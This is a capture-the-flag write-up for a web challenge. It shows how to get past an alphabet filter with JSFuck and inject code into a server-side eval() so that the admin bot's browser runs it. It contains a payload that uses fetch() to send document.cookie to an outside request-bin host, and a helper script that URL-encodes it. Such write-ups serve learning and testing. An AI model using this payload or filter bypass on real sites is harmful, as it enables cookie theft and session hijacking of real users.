 # solution

## need to know how to bypass anphabet filter

## url_encode (in a wisely way)

## tool and code to do all that

First, nothing quite interesting in the source code, except this code:

```
app.post("/report", (req, res) => {
  (async () => {
    const browser = await puppeteer.launch({
      executablePath: '/usr/bin/google-chrome',
      args: ["--no-sandbox"]
    });
    const page = await browser.newPage();
    await page.setCookie(...cookies);

    await page.goto(req.body.url);
    await delay(500);

    await browser.close();
  })();
  res.end('Reported!');
})
```

So path to solve is put a malicious payload into this url then we can take a flag. But first try to bypass filter in Baby'age field.
![alt text](image.png)<br>
After searching, we can use jsfuck to bypass this filter. But you should url encode your payload because if you don't do that, url will treat plus sign as space and your payload will be broken.

```
# ',fetch('https://lowikqm.request.dreamhack.games/'+document.cookie),'
payload4 = input("your jfsuck: ")
payload4_encode = payload4.replace('+','%2B')
print("--------------------------------------------------------------")
print(payload4_encode)

```

You just need url encode the '+' and jsfuck the part among **',** (because server not filter ' and , :() ). And you see can see payload for baby's age **',fetch('https://lowikqm.request.dreamhack.games/'+document.cookie),'**. The question here is why use ',{payload},'. Take a look at eval() fuction.

```
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
```

when we put this payload it's become

```
eval(`msg.innerHTML='This is recommended album for ',{payload},'-year-old.'`);
```

![alt text](image-1.png)<br>
So the server will process each part in eval() in turn. So will trigger the payload we put in. You can use this url in this link if you don't have your own server **https://tools.dreamhack.games/requestbin/pyypfna**. And put you payload in age parameter below.
![alt text](image-2.png)<br>
Hopefully you will get your flag.
